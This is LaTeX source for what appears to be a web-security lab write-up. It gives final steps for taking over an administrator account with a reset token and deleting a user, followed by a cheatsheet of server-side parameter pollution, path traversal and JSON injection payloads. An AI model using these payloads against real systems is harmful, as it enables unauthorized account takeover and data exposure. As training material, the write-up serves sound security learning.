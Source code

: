 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}
  \item Navigate to:
\begin{httpbox}[]
/forgot-password?passwordResetToken=<TOKEN>
\end{httpbox}
  \item Set a new password.
  \item Log in as \texttt{administrator}. Go to Admin panel $\to$ delete \texttt{carlos}.
\end{enumerate}

\section{Quick Reference: Injection Cheatsheet}

\begin{center}
\renewcommand{\arraystretch}{1.4}
\begin{longtable}{|>{\ttfamily\small}p{5cm}|p{4.8cm}|p{5.2cm}|}
\hline
\rowcolor{bgblack}\textcolor{acid}{\textbf{\sffamily Payload}} & \textcolor{acid}{\textbf{\sffamily What It Tests}} & \textcolor{acid}{\textbf{\sffamily Indicator of Vuln}} \\
\hline
\%23 & Truncation (query / path) & Different response; ``Field not specified'' \\
\hline
\%26x=y & Extra param injection & ``Parameter not supported'' \\
\hline
\%26field=x\%23 & Hidden field enumeration & ``Invalid field'' \\
\hline
\%26name=carlos & Parameter override & Response reflects \texttt{carlos} \\
\hline
./x & Same-level path traversal & Original response (confirms path context) \\
\hline
../x & Parent traversal & ``Invalid route'' \\
\hline
../../../../openapi.json\%23 & API definition leak & Schema / endpoint list returned \\
\hline
x","key":"val & JSON structure injection & Extra field appears in server-side JSON \\
\hline
\end{longtable}
\end{center}

\section{Defense Summary}
\end{document}
